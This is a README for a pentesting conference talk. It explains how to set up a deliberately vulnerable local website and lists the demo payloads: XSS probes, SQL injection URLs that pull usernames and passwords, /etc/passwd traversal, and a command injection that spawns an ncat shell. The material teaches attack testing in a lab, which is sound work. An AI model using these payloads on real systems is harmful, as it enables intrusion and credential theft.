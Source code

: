 #Spanking The Monkey (or how pentesters can do it better!)

In today’s mainstream penetration testing and Red Team environments we feel that the teams are relying too much on noisy scanners. In part making for a large group of scanner monkeys. This talk is bringing back old school ways with a new flavor, a new flair to prove that those techniques still work in the majority of engagements that many of us are involved in. The problem with many tools is not only how noisy they can be, but also the amount of logic and decision making that goes on under the hood without any human input. 

*****
##Index
* Recorded Talks
* Follow Along
* Resources

*****
###Recorded Talks
####SecKC May 2015 (Kansas City, Kansas)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=_d6E__jmYdA" target="_blank"><img src="http://img.youtube.com/vi/_d6E__jmYdA/0.jpg" 
alt=“SecKC” width=“560” height=“315” border=“0” /></a> 

####DerbyCon 5.0 (Louisville, Kentucky)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=sQTiLD32U70" target="_blank"><img src="http://img.youtube.com/vi/sQTiLD32U70/0.jpg" 
alt=“DerbyCon” width=“560” height=“315” border=“0” /></a> 

####GrrCon 2015 (Grand Rapids, Michigan)
<a href="http://www.youtube.com/watch?feature=player_embedded&v=dO9LQZaV19g" target="_blank"><img src="http://img.youtube.com/vi/dO9LQZaV19g/0.jpg" 
alt=“GrrCon” width=“560” height=“315” border=“0” /></a> 
*****
###Follow Along
Follow along with us or play around with the website.  This section will describe how to get the vulnerable website up and running on your own virtual machine.  

The configuration directions are for Ubuntu Desktop 14.04.3, but any Linux system will work.

####Install Ubuntu as a Virtual Machine

We’ll leave this part up to you.  Plenty of guides exist on the internet.  To help get you started some links are below:

* [Ubuntu Desktop] (http://www.ubuntu.com/download/desktop)
* [Virtual Box] (https://www.virtualbox.org/wiki/Downloads)
* [VMware Player] (https://www.vmware.com/products/player)

####Install Latest Updates
After getting Ubuntu installed, we will want to ensure that it is up-to-date
```
sudo apt-get update
sudo apt-get upgrade
sudo apt-get dist-upgrade
reboot
```

####Install LAMP stack
The Linux, Apache, MySQL, PHP (LAMP) stack is a popular open source web platform commonly used to run dynamic web sites and servers.  Since the stack is so popular, we decided to pick on it.

On Ubuntu the LAMP stack can be installed either separately or with the special package lamp-server

```
sudo apt-get install lamp-server^ -y
```

(Mind the caret (^) at the end)

The install process for mysql-server will prompt you to enter a password for the “root” user of the database.  This will be the master administrator password and should be different then the password you use for your user account.  

####Setup website

Now comes the fun part.  Installing the www.angry_monkey.com website.  To do this we will clone the git repo and move the files around. 

First we need to make sure that git is installed
```
sudo apt-get install git -y
```

Next pick a directory and clone the repo.  
```
cd ~/Desktop
git clone https://github.com/chetbishop/Spanking-The-Monkey.git
```

Populate the database, entering the password you setup earlier when prompted.
```
cd Spanking-The-Monkey/WebSite
mysql -u root -p < Database/schema.sql
```

Copy the Apache2 config file
```
sudo cp Apache\ Config/default /etc/apache2/sites-enabled/000-default.conf
```

Copy the website content
```
sudo cp -r Content/vulnsite/ /var/www/
```

Enable mod_rewrite in Apache
```
sudo a2enmod rewrite
```

Restart Apache
```
sudo service apache2 restart
```

####Update the /etc/hosts file
Since we are running the website locally, and not using a DNS server, we need to tell Ubuntu how to reach www.angry_monkey.com

Open the /etc/hosts file with your favorite text editor
```
sudo vi /etc/hosts
```

Add the following lines to the bottom of the file
```
#www.angry_monkey vulnerable site
127.0.0.1 www.angry_monkey.com
```

You will also need ncat to exploit the Command Injection vuln. ncat is inside the nmap package in Ubuntu.
```
sudo apt-get install nmap
```

####Go Have Fun
You should now be able to open your web browser and go to [www.angry_monkey.com](www.angry_monkey.com)

The following probes and commands are used during the demo to test and exploit the different vulnerabilities present on the website.

**Cross-Site Scripting**
```
>'>"><owl>

aaa
1337
<b>aaa
<script>alert(1)</script>
<script>alert(location.host)</script>
```

**SQL Injection**
```
')\

curl www.angry_monkey.com/profiles/42\/antonio
www.angry_monkey.com/profiles/42\/ OR 1 -- -
www.angry_monkey.com/profiles/42\/%09OR%091--%09-

www.angry_monkey.com/profiles/42\/%09UNION%09SELECT%091,2,3--%09-
www.angry_monkey.com/profiles/42\/%09UNION%09SELECT%091,2,3,4--%09-

curl "www.angry_monkey.com/profiles/42\/%09AND%09(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09JOIN%09users%09b%09using%09(id,us3rn4m3))%09a)--%09-"
curl "www.angry_monkey.com/profiles/42\/%09AND%09(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09JOIN%09users%09b%09using%09(id,us3rn4m3,twitter))%09a)--%09-"

curl "www.angry_monkey.com/profiles/42%5c/OR%09POLYGON((SELECT(1)FROM(SELECT(us3rn4m3),(PassW0rdColuMn)FROM(users)WHERE(id=42))x))--%09-"
```

**Command Injection**
```
/etc/passwd
../../../../../../../etc/passwd
;echo 111
%26%26echo 111

http://www.angry_monkey.com/index.php?doc=us.txt%26%26ncat -c sh -l -p 3333%26
ncat www.angry_monkey.com 3333
```

###Resources
Our notes for the talk are in the Resources folder.  Below are links for the tools and organizations we speak about.

* [OWASP] (https://www.owasp.org)
* [OWASP Top 10] (https://www.owasp.org/index.php/Top_10_2013)
* [OWASP Testing Guide] (https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents)
* [OWASP Testing for Reflected Cross site scripting] (https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing for SQL Injection] (https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))
* [OWASP Testing for MySQL] (https://www.owasp.org/index.php/Testing_for_MySQL)
* [OWASP Testing for Command Injection] (https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013))
